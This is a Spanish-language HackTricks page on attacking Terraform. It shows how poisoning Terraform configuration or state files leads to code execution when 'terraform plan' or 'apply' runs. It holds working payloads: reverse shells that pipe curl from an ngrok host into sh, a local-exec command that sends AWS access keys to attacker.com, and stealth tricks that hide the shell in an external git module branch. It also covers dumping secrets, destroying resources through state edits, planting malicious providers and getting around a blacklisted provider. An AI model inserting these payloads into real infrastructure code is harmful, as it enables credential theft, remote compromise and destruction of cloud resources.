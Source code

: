 # Seguridad de Terraform

<details>

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Entrenamiento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Entrenamiento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Información Básica

[Desde la documentación:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform es una herramienta de **infraestructura como código** que te permite definir tanto **recursos en la nube como locales** en archivos de configuración legibles por humanos que puedes versionar, reutilizar y compartir. Luego puedes utilizar un flujo de trabajo consistente para aprovisionar y gestionar toda tu infraestructura a lo largo de su ciclo de vida. Terraform puede gestionar componentes de bajo nivel como cómputo, almacenamiento y recursos de red, así como componentes de alto nivel como entradas DNS y características de SaaS.

### ¿Cómo funciona Terraform?

Terraform crea y gestiona recursos en plataformas en la nube y otros servicios a través de sus interfaces de programación de aplicaciones (APIs). Los proveedores permiten que Terraform funcione con prácticamente cualquier plataforma o servicio con una API accesible.

![](<../.gitbook/assets/image (177).png>)

HashiCorp y la comunidad de Terraform ya han escrito **más de 1700 proveedores** para gestionar miles de tipos diferentes de recursos y servicios, y este número sigue creciendo. Puedes encontrar todos los proveedores públicamente disponibles en el [Registro de Terraform](https://registry.terraform.io/), incluyendo Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, y muchos más.

El flujo de trabajo central de Terraform consta de tres etapas:

* **Escribir:** Defines recursos, que pueden estar en múltiples proveedores de nube y servicios. Por ejemplo, podrías crear una configuración para implementar una aplicación en máquinas virtuales en una red de VPC con grupos de seguridad y un balanceador de carga.
* **Planificar:** Terraform crea un plan de ejecución que describe la infraestructura que creará, actualizará o destruirá en función de la infraestructura existente y tu configuración.
* **Aplicar:** Con la aprobación, Terraform realiza las operaciones propuestas en el orden correcto, respetando las dependencias de recursos. Por ejemplo, si actualizas las propiedades de una VPC y cambias el número de máquinas virtuales en esa VPC, Terraform recreará la VPC antes de escalar las máquinas virtuales.

![](<../.gitbook/assets/image (215).png>)

## Laboratorio de Terraform

Simplemente instala Terraform en tu computadora.

Aquí tienes una [guía](https://learn.hashicorp.com/tutorials/terraform/install-cli) y aquí tienes la [mejor forma de descargar Terraform](https://www.terraform.io/downloads).

## RCE en Terraform

Terraform **no tiene una plataforma que exponga una página web o un servicio de red** que podamos enumerar, por lo tanto, la única forma de comprometer Terraform es **poder agregar/modificar archivos de configuración de Terraform**.

Sin embargo, Terraform es un **componente muy sensible** para comprometer porque tendrá **acceso privilegiado** a diferentes ubicaciones para poder funcionar correctamente.

La principal forma para que un atacante pueda comprometer el sistema donde se está ejecutando Terraform es **comprometer el repositorio que almacena las configuraciones de Terraform**, porque en algún momento van a ser **interpretadas**.

De hecho, existen soluciones que **ejecutan automáticamente terraform plan/apply después de que se crea un PR**, como **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Si logras comprometer un archivo de Terraform, hay diferentes formas en las que puedes realizar RCE cuando alguien ejecuta `terraform plan` o `terraform apply`.

### Terraform plan

Terraform plan es el **comando más utilizado** en Terraform y los desarrolladores/soluciones que utilizan Terraform lo llaman todo el tiempo, por lo que la **forma más fácil de obtener RCE** es asegurarse de envenenar un archivo de configuración de Terraform que ejecutará comandos arbitrarios en un `terraform plan`.

#### Usando un proveedor externo

Terraform ofrece el proveedor [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs) que proporciona una forma de interfaz entre Terraform y programas externos. Puedes usar el origen de datos `external` para ejecutar código arbitrario durante un `plan`.

Inyectar en un archivo de configuración de Terraform algo como lo siguiente ejecutará un shell reverso cuando se ejecute `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Usando un proveedor personalizado

Un atacante podría enviar un [proveedor personalizado](https://learn.hashicorp.com/tutorials/terraform/provider-setup) al [Registro de Terraform](https://registry.terraform.io/) y luego agregarlo al código de Terraform en una rama de características ([ejemplo de aquí](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
El proveedor se descarga en el `init` y ejecutará el código malicioso cuando se ejecute `plan`.

Puedes encontrar un ejemplo en [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Usando una referencia externa

Ambas opciones mencionadas son útiles pero no muy sigilosas (la segunda es más sigilosa pero más compleja que la primera). Puedes realizar este ataque de una manera aún **más sigilosa**, siguiendo estas sugerencias:

* En lugar de agregar el rev shell directamente en el archivo de terraform, puedes **cargar un recurso externo** que contenga el rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Puedes encontrar el código de rev shell en [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* En el recurso externo, utiliza la característica **ref** para ocultar el **código de rev shell de Terraform en una rama** dentro del repositorio, algo como: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Aplicar Terraform

Se ejecutará Terraform apply para aplicar todos los cambios, también puedes abusar de él para obtener RCE inyectando **un archivo Terraform malicioso con** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Solo necesitas asegurarte de que algún payload como los siguientes termine en el archivo `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Sigue las **sugerencias de la técnica anterior** para realizar este ataque de una manera **más sigilosa utilizando referencias externas**.

## Volcados de Secretos

Puedes tener **valores secretos utilizados por terraform volcados** ejecutando `terraform apply` agregando al archivo de terraform algo como:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Abusando de los Archivos de Estado de Terraform

En caso de que tengas acceso de escritura sobre los archivos de estado de Terraform pero no puedas cambiar el código de Terraform, [**esta investigación**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) ofrece algunas opciones interesantes para aprovechar el archivo:

### Eliminación de recursos <a href="#deleting-resources" id="deleting-resources"></a>

Existen 2 formas de destruir recursos:

1. **Insertar un recurso con un nombre aleatorio en el archivo de estado apuntando al recurso real a destruir**

Debido a que Terraform verá que el recurso no debería existir, lo destruirá (siguiendo el ID del recurso real indicado). Ejemplo de la página anterior:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Modificar el recurso a eliminar de manera que no sea posible actualizarlo (por lo que se eliminará y recreará)**

Para una instancia EC2, modificar el tipo de instancia es suficiente para hacer que Terraform la elimine y la vuelva a crear.

### RCE

También es posible [crear un proveedor personalizado](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) y simplemente reemplazar uno de los proveedores en el archivo de estado de Terraform por el malicioso o agregar un recurso vacío con el proveedor malicioso. Ejemplo de la investigación original:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Reemplazar proveedor en lista negra

En caso de que te encuentres con una situación en la que `hashicorp/external` esté en la lista negra, puedes volver a implementar el proveedor `external` siguiendo estos pasos. Nota: Utilizamos un fork del proveedor external publicado por https://registry.terraform.io/providers/nazarewk/external/latest. También puedes publicar tu propio fork o re-implementación.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Entonces puedes usar `external` como de costumbre.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Herramientas de Auditoría

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utiliza análisis estático de tu código terraform para detectar posibles configuraciones incorrectas.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan es un analizador de código estático para Infraestructura como Código.

## Referencias

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
